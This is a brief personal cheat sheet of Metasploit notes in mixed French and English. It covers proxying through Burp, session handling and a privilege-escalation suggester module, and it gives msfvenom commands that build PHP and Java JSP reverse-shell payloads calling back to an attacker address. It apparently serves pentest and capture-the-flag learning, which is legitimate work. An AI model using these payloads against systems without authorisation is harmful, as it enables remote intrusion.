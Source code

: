 > migrate explication
> cheatsheet
> msfvenom script generation explain
> difference between setg and set
> sessions -i <number>

```bash

 # rediriger les requettes vers Burp
 set PROXIES HTTP:127.0.0.1:8080
 set RPORT PORT # ou 80
```

```bash
#list payloads 
msfvenom  --list payloads

# utilisation de msfvenom pour generer un reverse shell php
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

```bash
# privilege escalation audit and suggestion
use post/multi/recon/local_exploit_suggester
```


```bash
# run in background
bgrun

# put session in backgroud
background | ctrl + Z
```

```bash
# locate file to copy exploit that are not in current msfconsole
locate exploits

# update
apt update; apt install metasploit-framework
```

```bash
# java reverse tcp payload 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=9999 -f war -o rshell.war 
```


**Ressources**

[Metasploit official doc](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/)
[MSF venom payload](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)